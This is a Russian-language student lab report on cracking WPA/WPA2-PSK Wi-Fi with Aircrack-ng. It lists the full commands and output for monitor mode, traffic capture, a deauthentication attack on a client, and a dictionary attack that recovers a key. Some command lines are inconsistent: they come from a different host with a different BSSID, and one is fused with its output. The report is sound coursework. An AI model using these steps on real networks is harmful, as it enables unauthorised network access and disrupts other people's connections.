\section{Цель работы}

Изучить основные возможности пакета AirCrack и принципы взлома WPA/WPA2
PSK и WEP.

Изучение
\begin{enumerate}
	\item Изучить документацию по основным утилитам пакета – airmon-ng, airodump-ng, aireplay-ng, aircrack-ng.
	\item Запустить режим мониторинга на беспроводном интерфейсе
	\item Запустить утилиту airodump, изучить формат вывода этой утилиты, форматы файлов, которые она может создавать
\end{enumerate}

Практическое задание:
\begin{enumerate}
	\item Запустить режим мониторинга на беспроводном интерфейсе
	\item Запустить сбор трафика для получения аутентификационных сообщений
	\item Если аутентификаций в сети не происходит в разумный промежуток времени, произвести деаутентификацию одного из клиентов, до тех пор, пока не удастся собрать необходимых для взлома аутенти-
	фикационных сообщений
	\item Произвести взлом используя словарь паролей
\end{enumerate}

\section{Ход работы}

\subsection{Основные утилиты пакета Aircrack}
\begin{itemize}
	\item Airodump-ng - утилита, предназначенная для захвата пакетов протокола 802.11.
	\item Aireplay-ng - утилита, для генерации трафика, необходимого для взлома при помощи утилиты aircrack-ng.
	\item Aircrack-ng - утилита для взлома ключей WEP и WPA при помощи перебора по словарю.
\end{itemize}
\subsection{Запуск режима мониторинга на беспроводном интерфейсе}
\begin{lstlisting}
artyom@artyom-Inspiron-7348:~$ sudo airmon-ng start wlan0


Found 5 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
a short period of time, you may want to kill (some of) them!

PID	Name
625	NetworkManager
929	wpa_supplicant
1474	dhclient
1551	avahi-daemon
1566	avahi-daemon
Process with PID 1474 (dhclient) is running on interface wlan0


Interface	Chipset		Driver

wlan0		Intel AC	iwlwifi - [phy0]
(monitor mode enabled on mon0)
\end{lstlisting}
\subsection{Запустить утилиту airodump и изучить форматы вывода этой утилиты}
При указании ключа --write, утилита создает набор файлов с заданным префиксом. Два из которых связаны с информацией о доступных сетях и представлены в двух форматах: csv и xml. Еще два фала содержать информацию о перехваченных пакетах. Файл типа .cap содержит перехваченные пакеты, в то время как csv содержит лишь сокращенную информацию.

\begin{lstlisting}
artyom@artyom-Inspiron-7348:~$ ls dump-03*
dump-03.cap  dump-03.csv  dump-03.kismet.csv  dump-03.kismet.netxml
\end{lstlisting}
\section{Практическое задание}
Запустим режим мониторинга на беспроводном интерфейсе

\begin{lstlisting}
artyom@artyom-Inspiron-7348:~$ sudo airodump-ng mon0
\end{lstlisting}

\begin{figure}[H]
	\centering
	
\includegraphics[width=\textwidth]{figures/1.png}
	\caption{airodump}
\end{figure}

Нас интересует сеть Printer.

Запустим сбор трафика для получения аутентификационных сообщений:

\begin{lstlisting}
artyom@artyom-Inspiron-7348:~$ sudo airodump-ng mon0 --write airdump --bssid 12:FE:ED:E5:BD:01 -c 6 
\end{lstlisting}

\begin{figure}[H]
	\centering
	
\includegraphics[width=\textwidth]{figures/2.png}
	\caption{airodump}
\end{figure}

Произведем деаутентификацию одного из клиентов (клиента с MAC-адресом 
CC:FA:00:AB:87:F0), до тех пор, пока не удастся собрать необходимых для 
взлома аутентификационных сообщений.
\begin{lstlisting}
artyom@artyom-Inspiron-7348:~$ sudo aireplay-ng --ignore-negative-one --deauth 150 -a 12:FE:ED:E5:BD:01 -h CC:FA:00:AB:87:F0 mon0
06:25:42  Waiting for beacon frame (BSSID: 12:FE:ED:E5:BD:01) on channel 6
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
06:25:42  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:25:43  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:25:43  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:25:53  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:26:03  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:26:04  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
\end{lstlisting}
В результате перехватываем пакет handshake:
\begin{lstlisting}
sba@sba-Lenovo-G580:~$ sudo airodump-ng mon1 --bssid D8:5D:4C:DA:F8:2E  -c 6 --write dump --ignore-negative-one
\end{lstlisting}

\begin{figure}[H]
	\centering
	
\includegraphics[width=\textwidth]{figures/3.png}
	\caption{airodump}
\end{figure}

Попробуем подобрать пароль, используя полученный пакет с рукопожатием.
Для того, что бы взлом происходил быстрее, создадим свой словарь паролей 
(dict.dic).
\begin{lstlisting}
artyom@artyom-Inspiron-7348:~$ sudo aircrack-ng dump-03.cap -w dict.dicOpening dump-03.cap
Read 1572 packets.

#  BSSID              ESSID                     Encryption

1  12:FE:ED:E5:BD:01  Printer                   WPA (1 handshake)

Choosing first network as target.

Opening dump-03.cap
Reading packets, please wait...

Aircrack-ng 1.2 beta3


[00:00:00] 1 keys tested (345.36 k/s)


Current passphrase: ...                 

KEY FOUND! [ ... ]
KEY FOUND! [ ... ]
45 0D 62 F4 FC 81 69 5F D1 1C 65 80 11 8A 1B 0A 

Transient Key  : 05 01 A0 F0 28 F2 D0 99 79 2B 09 94 38 93 04 7A 
6F C3 75 6C 58 13 7C FB 22 17 99 00 8A 99 79 77 
B9 10 1C 39 DE 5C 0C 29 C5 1C 43 39 B2 06 F5 7B 
EAPOL HMAC     : E9 D0 1B 6C F3 ED A4 F6 FC 83 5D BC 3C 6A 9F 00 

\end{lstlisting}
В результате видим сообщение об успешно подобранном пароле, а так же сам пароль.

\section{Выводы}
В ходе данной работы были изучены основные возможности пакета AirCrack и 
принципы взлома WPA2 в режиме PSK. %
Данный инструмент позволяет прослушивать пакеты в беспроводной, генерировать новые, а так же осуществлять взлом пароля сети при помощи перебора по 
словарю.

В ходе работы было выяснено, что использование общеупотребимых (словарных) паролей значительно облегчает взлом беспроводной сети.